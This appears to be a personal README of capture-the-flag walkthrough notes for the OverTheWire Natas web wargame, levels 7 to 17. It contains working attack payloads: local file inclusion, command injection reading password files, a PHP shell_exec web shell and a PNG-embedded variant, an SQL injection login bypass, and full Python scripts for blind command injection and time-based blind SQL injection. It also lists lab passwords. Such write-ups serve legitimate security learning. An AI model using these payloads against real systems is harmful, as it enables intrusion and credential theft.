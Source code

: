 # over-the-wire-natas
Did till natas7 b4 creating this repo <br>
Starting from natas7<br><br>
->Natas7<br>
used concept of local file inclusion. open source code(ctrl+U) and hint is given that pwd is in /etc/.../natas8/. observe that url of home and about contains php part.
from "https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion"<br> Typical proof-of-concept would be to load passwd file:
<i>http://vulnerable_host/preview.php?file=../../../../etc/passwd. </i> so just put /etc../natas8 in url instead of about. <br> <br>
->Natas8<br>
nothing in ctrl+U. going to "view sourcecode" will find php code. take the encodedSecret, convert it to ascii, reverse it, decode base64 and lesgoo!! <br><br>
->Natas9<br>
play around. type * and it gives the source code. tried ls -a. # verifies that it's working. ```| cat``` gives entire txt file. or just do http://natas9.natas.labs.overthewire.org/dictionary.txt (as proven by typing ```ls -a``` in search)<br> given at beginning of natas - all pwds are at /etc/natas_webpass/natasX. so type ```| cat /etc/natas_webpass/natas10```.<br>unrelated info: no. of "." (periods) will determine the min. word length. supports regex. type ^.......$ to get 7 letter words only<br><br>
->Natas10<br>
search ```"" cat /etc/natas_webpass/natas11```.<br><br>
->Natas11<br>
WTF. 3 things - key,cipher,plaintext - are reqd. in XOR encryption. to find key do XOR of cipher and plaintext. plaintext = ```{"showpassword":"no","bgcolor":"#ffffff"}```. copy COOKIE, b64 decode it, XOR it using plaintext as key. key will be obtained as repeated pattern. now set showpwd to yes in plaintext and do reverse to find cookie. change value of cookie and reload page.<br><br>
->Natas12<br>
```A malicious file such as a Unix shell script, a windows virus, an Excel file with a dangerous formula, or a reverse shell can be uploaded on the server in order to execute code by an administrator or webmaster later – on the victim’s machine.```<br>
just write a php file with code ```<?php
$output = shell_exec('cat /etc/natas_webpass/natas13');
echo "<pre>$output</pre>";
?>``` and save it with .php extension. then choose it and upload it through burpsuite using proxy. in burpsuite change the file extension in file name to .php and forward the request. open the file on the site to find pwd.<br><br>
->Natas13<br>
bit tricky. take a png file (i took a ss of 140bytes). open "hexed.it" (or any other tool u find useful). upload the png file. now, afaik, png files are recognized by IHDR and IEND tags in the hexdump. so just paste your php code after IEND. save it and follow the prev level steps now. key would be displayed after the hexdump of png file like ```�PNG  IHDR�=M�sRGB���gAMA���a pHYstt�fx!IDAT8Oc�����@`��D�Q ĀQ ĀA���hl� �IEND�B`�z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ```.<br><br>
->Natas14<br>
v simple. sql injection. write username admin. pwd as ```"or '1'='1'"```. yay!<br><br>
->Natas15<br>
itta ni aata, sry. "https://medium.com/@kawsaruddin238/overthewire-natas-level-14-level-15-411de023672c"<br><br>
->Natas16<br>
```
import requests,string
#BLIND SQL INJECTION
#$(command) - command subsitution
url = "http://natas16.natas.labs.overthewire.org"
username = "natas16"
pwd = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

ch = 'qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890'
password=''
for i in range(1,34):
    for char in ch:
        uri = f"{url}?needle=$(grep -E ^{password}{char}.* /etc/natas_webpass/natas17)hackers"
#grep -i "$(grep -E ^{''.join(password)}{char}.* /etc/natas_webpass/natas17)hackers" dictionary.txt
#hackers is a unique word in dictionary. so if anything gets prepended to it through our script,
#then it shouldn't return anything, right. so just add char to password with which nothing gets printed out.     
        r = requests.get(uri, auth=(username,pwd))
        if 'hackers' not in r.text:
            #The text attribute of the response object (r)
            password += char
            print(password)
            break
        else:
            continue
#"https://mcpa.github.io/natas/wargame/web/overthewire/2015/10/01/natas16/"
```
<br><br>
->Natas17<br>
read: "https://owasp.org/www-community/attacks/Blind_SQL_Injection" time-based part. help taken.
```
import requests
import time

url = "http://natas17.natas.labs.overthewire.org"
auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC")
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
cset = ""
for char in characters:
    payload = f'natas18" AND IF(password LIKE BINARY "%{char}%", SLEEP(15), 0) -- '
    start_time = time.time()

    response = requests.get(url, params={"username": payload}, auth=auth)

    elapsed_time = time.time() - start_time
    if elapsed_time > 15:  
        cset += char
print(f"Charset: {cset}")

password = ""
while len(password) != 32:
	for c in cset:
		t = password + c
		username = 'natas18" AND IF(password LIKE BINARY "%s%%",SLEEP(%d), 1)#' % (t, 15)
		r = requests.get(url, auth=auth, params={"username": username}
		)
		s = r.elapsed.total_seconds()
		if s >= 15:
			#print (t)
			password = t
			break
print("password: ",password)
```
<br>
->Natas18<br>






